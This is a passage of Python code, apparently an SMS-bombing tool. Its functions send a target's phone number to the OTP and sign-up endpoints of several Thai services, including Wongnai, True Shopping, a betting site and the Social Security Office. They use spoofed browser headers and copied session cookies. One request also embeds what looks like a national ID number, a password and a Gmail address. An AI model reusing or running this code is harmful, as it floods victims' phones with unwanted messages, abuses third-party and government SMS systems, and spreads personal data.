              "transactionBranch": "TFT_ORG_0000", "userId": "", "locale": "th-TH"}, "noticeType": 1, "businessType": "RT0001", "phoneNumber": f"66-{phone}"}, headers={"content-type": "application/json; charset=UTF-8", "user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})

    def api2(phone):

        headers = {

            "content-type": "application/x-www-form-urlencoded",

            "user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",

            "referer": "https://www.wongnai.com/guest2?_f=signUp&guest_signup_type=phone",

            "cookie": "_gcl_au=1.1.1123274548.1637746846"

        }

        post("https://www.wongnai.com/_api/guest.json?_v=6.054&locale=th&_a=phoneLogIn",

             headers=headers, data=f"phoneno={phone}&retrycount=0")

    def api3(phone):

        post("https://gettgo.com/sessions/otp_for_sign_up",

             data={"mobile_number": phone})

    def api4(phone):

        post("https://api.true-shopping.com/customer/api/request-activate/mobile_no",

             data={"username": phone})

    def api5(phone):

        post("https://www.msport1688.com/auth/send_otp", data={"phone": phone})

    def api6(phone):

        post("http://b226.com/x/code", data={f"phone": phone})

    def api7(phone):

        post('https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otp', headers={"User-Agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest",

             "Cookie": "sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684; _gid=GA1.3.1832635291.1636876684"}, data=f"dCard=1358231116147&Mobile={phone}&password=098098Az&repassword=098098Az&perPrefix=Mr.&cn=Dhdhhs&sn=Vssbsh&perBirthday=5&perBirthmonth=5&perBirthyear=2545&Email=nickytom5879%40gmail.com&otp_type=OTP&otpvalue=&messageId=REGISTER")
